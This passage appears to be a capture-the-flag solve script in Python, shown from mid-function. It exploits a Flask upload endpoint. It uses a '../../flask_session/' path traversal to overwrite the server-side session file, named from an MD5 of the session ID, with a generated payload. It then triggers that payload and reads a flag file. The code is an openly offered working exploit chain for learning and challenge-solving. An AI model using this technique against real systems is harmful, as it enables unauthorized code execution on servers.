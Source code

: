 ```python
    return payload

def submit_payload(url, session_id):
    filename = hashlib.md5(("session:" + session_id).encode()).hexdigest()
    payload = generate_payload()
    response = upload_file(url, filename, payload, '../../flask_session/')
    return response

def execute_payload(url, session_id):
    response = requests.get(url + "/", cookies={'session': session_id})
    return response.status_code

def get_flag(url, session_id):
    response = requests.get(url + "/static/uploads/flag.txt")
    return response.text

if __name__ == "__main__":
    url = input("Enter the instance URL: ")
    if url == "":
         url = "http://localhost:5000"
    first_upload = upload_file(url,'empty_file', b'')
    session_id = first_upload.cookies.get('session')
    print("First upload:", first_upload.status_code)
    print("Session ID:", session_id)
    payload_upload = submit_payload(url, session_id)
    print("Payload upload:", payload_upload.status_code)
    print("Payload execute:", execute_payload(url, session_id))
    flag = get_flag(url, session_id)
    print("Flag:", flag)
```

